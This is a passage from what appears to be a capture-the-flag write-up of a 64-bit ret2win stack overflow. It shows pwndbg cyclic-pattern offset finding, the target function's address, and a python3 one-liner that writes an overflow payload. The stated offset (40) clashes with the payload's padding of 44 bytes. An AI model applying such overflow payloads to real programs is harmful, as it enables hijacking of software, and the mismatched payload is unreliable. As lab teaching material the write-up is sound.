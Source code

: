 Granting us our padding.

### Debugging with `pwndbg`

You will notice that we are now working with 64-bit addresses, x64 instructions, and registers.

**Generate a 100-byte cyclic pattern:**

```
cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Upon sending this to our input, we will segfault, good.

Furthermore, confirming our padding.

```
cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Offset found at `40`!

### Manual Exploitation

Disassemble the target function. In this case, it is `ret2win(`):

```
disass ret2win
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:     push   rbp
```

* `0x0000000000400756`
* Now we need to reverse this order via little-endian for our payload

```
\x56\x07\x40\x00\x00\x00\x00\x00
```

**Utilizing python3, we can jump to `ret2win()` once more and see that in the result of our execution and obtain our flag:**

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\x56\x07\x40\x00\x00\x00\x00\x00')"  > payload
```

So initially, <mark style="color:yellow;">I just slapped this address in and redirected the output to a file and what ended up happening is I was diverting execution to</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`ret2win()`</mark><mark style="color:yellow;">, but I was crashing right before printing the flag</mark>.

Upon examining this within pwndbg, <mark style="color:yellow;">we can see that we are crashing on the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`movaps`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">instruction</mark>.

